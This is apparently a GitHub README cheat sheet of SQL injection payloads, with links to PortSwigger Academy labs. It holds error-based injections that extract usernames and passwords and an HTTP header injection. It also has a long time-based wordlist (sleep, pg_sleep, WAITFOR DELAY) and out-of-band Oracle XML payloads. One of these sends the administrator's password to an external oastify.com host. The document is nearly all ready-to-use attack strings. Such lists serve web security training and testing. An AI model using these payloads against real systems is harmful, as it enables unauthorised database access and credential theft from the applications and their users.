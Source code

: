 ### Visible Error-Based Sql Injection
```sql
'||cast((select version() LIMIT 1) AS INT)--

'||cast((select username from users LIMIT 1) AS INT)--  >> cast for PostgreSQL

'||cast((select password from users LIMIT 1) AS INT)--
```

### HTTP Header Based SQL Injection
```sql
x-forwarded-for: 127.0.0.1' union select 1,2,3 and sleep(2)-- -
```

### Inception Based SQL Injection
```sql
and 1=2 union select "1 union select 1,2,3,4-- -",2,3-- - >> Query inside query
```
### Wordlist
```sql
    or sleep 5 —
    or sleep 5
    or sleep(5) —
    or sleep(5)

    or SELECT pg_sleep(5);
    (SELECT pg_sleep(5))
    pg_sleep(5) —
    1 or pg_sleep(5) —
    “ or pg_sleep(5) —
    ‘ or pg_sleep(5) —
    1) or pg_sleep(5) —

    ;waitfor delay ‘0:0:5’ —
    ‘;WAITFOR DELAY ‘0:0:5’ —
    );waitfor delay ‘0:0:5’ —
    ‘;waitfor delay ‘0:0:5’ —
    “;waitfor delay ‘0:0:5’ —
    ‘);waitfor delay ‘0:0:5’ —
    “);waitfor delay ‘0:0:5’ —
    ));waitfor delay ‘0:0:5’ —
    ‘));waitfor delay ‘0:0:5’ —
    “));waitfor delay ‘0:0:5’ —
    “) IF (1=1) WAITFOR DELAY ‘0:0:5’ —
    ‘;%5waitfor%5delay%5’0:0:5′%5 — %5
    ‘ WAITFOR DELAY ‘0:0:5’ —
```
**Routed SQL Injection POC:** [Click](https://youtu.be/mNj73yI8GEk?si=yuw2-_aGF0BjQuUk)

### Out of band interaction
```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://s4xxbrj7yq5ncirvu0461nop2g87w7kw.oastify.com/"> %remote;]>'),'/l') FROM dual--
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.otlt0n83nmuj1egrjwt2qjdlrcx3lufi4.oastify.com/"> %remote;]>'),'/l') FROM dual-- >> For retrieve data
```
## XML based filter bypass via XML encoding

**Portswigger Academy Lab:** [Click](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
